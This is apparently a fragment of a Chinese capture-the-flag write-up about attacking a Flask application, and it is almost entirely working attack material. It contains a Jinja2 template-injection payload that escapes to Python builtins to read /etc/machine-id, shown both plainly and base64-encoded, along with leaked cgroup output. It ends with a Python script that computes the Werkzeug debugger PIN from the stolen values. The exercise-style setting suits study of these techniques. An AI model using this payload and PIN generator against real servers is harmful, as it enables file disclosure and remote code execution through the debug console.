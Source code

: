 ```
12:freezer:/docker/3c7c60af8484830ab0b1e9615fada4e74d93a8a111baa4afcd949feeab56c320 11:cpuset:/docker/3c7c60af8484830ab0b1e9615fada4e74d93a8a111baa4afcd949feeab56c320 10:cpu,cpuacct:/docker/3c7c60af8484830ab0b1e9615fada4e74d93a8a111baa4afcd949feeab56c320 9:devices:/docker/3c7c60af8484830ab0b1e9615fada4e74d93a8a111baa4afcd949feeab56c320 8:hugetlb:/docker/3c7c60af8484830ab0b1e9615fada4e74d93a8a111baa4afcd949feeab56c320 7:blkio:/docker/3c7c60af8484830ab0b1e9615fada4e74d93a8a111baa4afcd949feeab56c320 6:memory:/docker/3c7c60af8484830ab0b1e9615fada4e74d93a8a111baa4afcd949feeab56c320 5:pids:/docker/3c7c60af8484830ab0b1e9615fada4e74d93a8a111baa4afcd949feeab56c320 4:net_cls,net_prio:/docker/3c7c60af8484830ab0b1e9615fada4e74d93a8a111baa4afcd949feeab56c320 3:rdma:/ 2:perf_event:/docker/3c7c60af8484830ab0b1e9615fada4e74d93a8a111baa4afcd949feeab56c320 1:name=systemd:/docker/3c7c60af8484830ab0b1e9615fada4e74d93a8a111baa4afcd949feeab56c320 0::/system.slice/containerd.service
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/etc/machine-id', 'r').read() }}{% endif %}{% endfor %}

eyUgZm9yIGMgaW4gW10uX19jbGFzc19fLl9fYmFzZV9fLl9fc3ViY2xhc3Nlc19fKCkgJX17JSBpZiBjLl9fbmFtZV9fPT0nY2F0Y2hfd2FybmluZ3MnICV9e3sgYy5fX2luaXRfXy5fX2dsb2JhbHNfX1snX19idWlsdGluc19fJ10ub3BlbignL2V0Yy9tYWNoaW5lLWlkJywgJ3InKS5yZWFkKCkgfX17JSBlbmRpZiAlfXslIGVuZGZvciAlfQ==

81ef01dec0f0eb6d6c0f3752b487b10e
```

利用获取到的信息爆破pin

```
import hashlib
from itertools import chain
probably_public_bits = [
	'flaskweb',# username
	'flask.app',# modname
	'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
	'/usr/local/lib/python3.7/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
	'2485377957898',# str(uuid.getnode()),  /sys/class/net/eth0/address
	'3c7c60af8484830ab0b1e9615fada4e74d93a8a111baa4afcd949feeab56c320'
    # get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
	if not bit:
		continue
	if isinstance(bit, str):
		bit = bit.encode('utf-8')
	h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
	h.update(b'pinsalt')
	num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
	for group_size in 5, 4, 3:
		if len(num) % group_size == 0:
			rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
						  for x in range(0, len(num), group_size))
			break
	else:
		rv = num

```